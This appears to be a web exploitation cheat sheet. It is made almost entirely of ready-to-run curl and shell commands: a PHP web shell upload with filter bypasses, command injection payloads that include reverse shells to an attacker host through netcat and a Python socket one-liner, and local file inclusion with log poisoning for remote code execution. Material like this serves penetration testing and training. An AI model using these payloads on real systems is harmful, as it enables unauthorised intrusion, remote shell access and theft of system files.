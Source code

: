 ### File Upload Exploitation:
```bash
# PHP web shell upload
echo '<?php system($_GET["cmd"]); ?>' > shell.php
curl -X POST -F "file=@shell.php" http://target_ip/upload.php

# Bypass file extension filters
mv shell.php shell.php.jpg
mv shell.php shell.phtml
mv shell.php shell.php5

# Double extension bypass
mv shell.php shell.jpg.php

# Content-type bypass
curl -X POST -F "file=@shell.php;type=image/jpeg" http://target_ip/upload.php

# Access uploaded shell
curl "http://target_ip/uploads/shell.php?cmd=whoami"
curl "http://target_ip/uploads/shell.php?cmd=id"
```

### Command Injection Exploitation:
```bash
# OS command injection testing
curl "http://target_ip/ping.php?host=127.0.0.1;id"
curl "http://target_ip/ping.php?host=127.0.0.1|whoami"
curl "http://target_ip/ping.php?host=127.0.0.1&&ls"

# Command injection with URL encoding
curl "http://target_ip/ping.php?host=127.0.0.1%3Bid"
curl "http://target_ip/ping.php?host=127.0.0.1%26%26whoami"

# Reverse shell via command injection
curl "http://target_ip/ping.php?host=127.0.0.1;nc+-e+/bin/bash+attacker_ip+4444"
curl "http://target_ip/ping.php?host=127.0.0.1;python+-c+'import+socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"attacker_ip\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\"])'"
```

### Directory Traversal Exploitation:
```bash
# Local file inclusion (LFI)
curl "http://target_ip/page.php?file=../../../etc/passwd"
curl "http://target_ip/page.php?file=....//....//....//etc/passwd"
curl "http://target_ip/page.php?file=/etc/passwd%00"

# Windows LFI
curl "http://target_ip/page.php?file=../../../windows/system32/drivers/etc/hosts"
curl "http://target_ip/page.php?file=C:\windows\system32\drivers\etc\hosts"

# Log poisoning for RCE
curl "http://target_ip/page.php?file=../../../var/log/apache2/access.log"
# First, poison the log
curl -A "<?php system(\$_GET['cmd']); ?>" http://target_ip/
# Then execute commands
curl "http://target_ip/page.php?file=../../../var/log/apache2/access.log&cmd=whoami"
```
